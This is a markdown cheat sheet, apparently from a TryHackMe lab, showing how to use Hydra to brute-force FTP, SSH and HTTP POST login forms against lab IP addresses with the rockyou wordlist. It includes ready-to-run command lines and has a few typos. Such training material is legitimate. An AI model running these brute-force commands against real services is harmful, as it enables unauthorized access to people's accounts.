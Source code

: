 ### Hydra User Guide
- All credit goes to: DarkStar7471 for his THM room located here : https://tryhackme.com/room/hydra

- Hydra is a brute force online password cracking tool, which can be used with a variety of protocols
- Protocols that hydra can work with:
Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP,  HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, 
HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, 
POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, 
VMware-Auth, VNC and XMPP.
- Official kali page:
- https://en.kali.tools/?p=220
- Download it (default on kali):
- https://github.com/vanhauser-thc/thc-hydra
#### Hydra Syntax
- The correct hydra syntax is depended upon the service you are going after.  For example if we want to hit ftp we should use:
#### FTP
````
hydra -l user -P passlist.txt ftp://10.10.10.10.
````
#### SSH
````
hydra -l <username> -P /usr/share/wordlists/rockyou.txt 10.10.10.10. -t 4 ssh
````
- `-l` is to specify the username 
- `P` is to specify a password list
- `-t` is to specify the number of threads to run hydra with.
- Note: Hydra recommends no more than 4 threads, however you can run it faster with `-t 16`.
#### POST Web Form
- Hydra can be used to brute force web logins as well.
- Step 1: Determine the request made to the form (POST/GET)
- Identify this in the network tab (developer tools), view the source code, or use Burp Suite.
- Syntax:
````
hydra -l <username> -P /usr/share/wordlists/rockyou.txt 10.10.211.150 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -vV
````
- `http-post-form` specifies the type of form
- `/login url` the login page URL i.e. `http://dont-brute-force-me.com/login.php`
- `:username` the form field name for the username
- `^USER^` this tells hydra to use the username you specified
- `password` the form field name for the password
- `^PASS^` the password list specified in the command 
- `Login` the failed login message
- `Login failed` is the login failure message that the form specifies 
- `F=inncorrect` the word that appears on the page if the login fails
- `-vV` specifies very verbose output 
- Hydra non default ssh port:
````
hydra -t 16 -l sam -P /usr/share/wordlists/rockyou.txt 10.10.80.187 ssh -s 4567 -vV
````
#### Example Syntax
````
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password!"
sudo hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.211.150 http-post-form "/login:username=molly&password=^PASS^:F=incorrect" -V
sudo hydra 10.0.0.1 http-post-form "/admin.php:target=auth&mode=login&user=^USER^&password=^PASS^:invalid" -P /usr/share/wordlists/rockyou.txt -l admin
````











